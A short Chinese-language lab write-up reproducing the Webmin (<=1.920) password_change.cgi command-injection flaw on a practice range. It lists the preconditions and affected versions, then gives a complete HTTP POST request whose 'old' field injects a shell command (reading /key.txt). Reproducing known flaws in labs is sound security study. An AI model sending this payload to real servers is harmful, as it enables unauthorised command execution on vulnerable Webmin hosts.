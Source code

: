 # 0x00 复现环境
使用复现环境：https://www.mozhe.cn/bug/detail/d01lL2RSbGEwZUNTeThVZ0xDdXl0Zz09bW96aGUmozhe

# 0x01 利用条件
需要开启密码重置功能，如下图  
![image](./0.png)  
查看webmin的配置文件/etc/webmin/miniserv.conf，可以发现passwd_mode的值已经从0变为了2

# 0x02 影响版本
Webmin<=1.920

# 0x03 漏洞复现
随便发起一个请求，burp拦截，修改为如下数据包  
```
POST /password_change.cgi HTTP/1.1
Host: 219.153.49.228:41489
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://219.153.49.228:41489/passwd/index.cgi?xnavigation=1
X-PJAX: true
X-PJAX-Container: [data-dcontainer]
X-PJAX-URL: passwd/edit_passwd.cgi?user=root
X-Requested-From: passwd
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Type: text/plain;charset=UTF-8
Content-Length: 60
Connection: close

user=yibudengtian&old=cat%20/key.txt&new1=123456&new2=123456
```

# 0x04 踩坑记录
坑1：
![image](./1.png)

# 参考链接
https://xz.aliyun.com/t/6040  
https://www.cnblogs.com/paperpen/p/11442532.html
